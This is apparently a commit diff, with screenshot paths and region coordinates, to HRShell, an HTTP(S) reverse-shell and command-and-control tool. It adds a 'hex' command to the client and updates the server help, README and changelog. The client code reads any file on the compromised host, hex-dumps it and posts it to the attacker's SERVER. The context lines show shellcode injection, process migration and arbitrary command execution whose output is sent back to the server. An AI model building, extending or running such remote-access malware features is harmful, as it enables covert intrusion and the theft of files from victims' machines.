

hexdump support added...

Changed region(s): [[0.0, 0.0605, 0.9214, 0.9381], [0.0307, 0.0303, 0.9214, 0.0605]]

diff --git a/client.py b/client.py
@@ -43,6 +43,7 @@ special_commands = ["upload", "download", "setshellcode"]
 chg_dir    = re.compile(r'^\s*cd (.*)$')
 unix_path  = re.compile(r'^(.+/)*([^/]+)$')
 wind_path  = re.compile(r'^(.+\\)*([^/]+)$')
+hexdmp     = re.compile(r'^\s*hex\s+(.*)\s*$')
 screenshot = re.compile(r'^\s*screenshot\s*$')
 migrate    = re.compile(r'^\s*migrate\s+(\d+)\s*$')
 inject     = re.compile(r'^\s*inject\s+shellcode\s*$')
@@ -206,6 +207,18 @@ def inject_shellcode_windows(s):
     except Exception as error:
         s.post(SERVER, data=error)
 
+def hexdump(src, length=16):
+    """
+    Taken from: https://gist.github.com/7h3rAm/5603718
+    """
+    FILTER, lines = ''.join([(len(repr(chr(x))) == 3) and chr(x) or '.' for x in range(256)]), []
+    for c in range(0, len(src), length):
+        chars = src[c:c+length]
+        hex = ' '.join(["%02x" % ord(x) for x in chars]) if type(chars) is str else ' '.join(['{:02x}'.format(x) for x in chars])
+        if len(hex) > 24: hex = "%s %s" % (hex[:24], hex[24:])
+        printable = ''.join(["%s" % ((ord(x) <= 127 and FILTER[ord(x)]) or '.') for x in chars]) if type(chars) is str else ''.join(['{}'.format((x <= 127 and FILTER[x]) or '.') for x in chars])
+        lines.append("%08x:  %-*s  |%s|" % (c, length*3, hex, printable))
+    return '\n'.join(lines)
 
 username, error = exec_cmd("whoami")
 if os.name=='nt':
@@ -356,6 +369,16 @@ try:
                             s.post(SERVER,
                                 data='For now "migrate" command is available only for x86 & x64 windows systems.'
                             )
+                    elif hexdmp.match(cmd):
+                        file2hex = hexdmp.search(cmd).group(1)
+                        if valid_file(file2hex):
+                            with open(file2hex, 'rb') as f: data = f.read()
+                            hex_content = hexdump(data)
+                            s.post(SERVER,
+                                data=hex_content
+                            )
+                        else:
+                            s.post(SERVER, data="File doesn't exist or is not readable.")
                     else:
                         try:
                             stdout, stderr = exec_cmd(cmd)

diff --git a/server.py b/server.py
@@ -100,6 +100,7 @@ commands = [
     [f"{B}inject shellcode{RA}", "Injects shellcode into a thread of the current process"],
     [f"{B}show shellcodes{RA}", "Shows all available to use shellcodes"],
     [f"{B}set shellcode <id>{RA}", "Sets shellcode to a custom shellcode specified by its id"],
+    [f"{B}hex <(path to) file>{RA}", "Hex-dumps the file specified"],
     [f"{B}clear{RA}", "Clears the screen"],
     [f"{B}exit{RA}", "Closes the connection with the client"]
 ]

diff --git a/README.md b/README.md
@@ -229,6 +229,7 @@ Feedback and contributions are welcome. If you find any bug or have a feature re
 *   Seitz J. Gray Hat Python: Python programming for hackers and reverse engineers. no starch press; 2009 Apr 15.
 *   [PyShellCode](https://github.com/thomaskeck/PyShellCode)
 *   A great article found [here](http://www.debasish.in/2012/04/execute-shellcode-using-python.html).
+*   Client's `hexdump` function taken from [this great gist](https://gist.github.com/7h3rAm/5603718).
 *   The HRShell logo is made with [fontmeme.com](https://fontmeme.com/graffiti-fonts/)!
 
 ### License

diff --git a/CHANGELOG.md b/CHANGELOG.md
@@ -6,6 +6,7 @@
 
 *   Implemented interactive `history` command available when `server.py` runs on Unix systems.
 *   Also on __unix__ systems, the `inject shellcode` command, instead of spawning a new thread will spawn a new process. In this way even if e.g. the meterpreter session closes the HTTP(S) connection remains intact. On windows systems there was no such problem...
+*   `hex <(path to) file>` command added!
 *   Comments are supported... 
 
 #### Version 1.6 (_09-10-2019_)
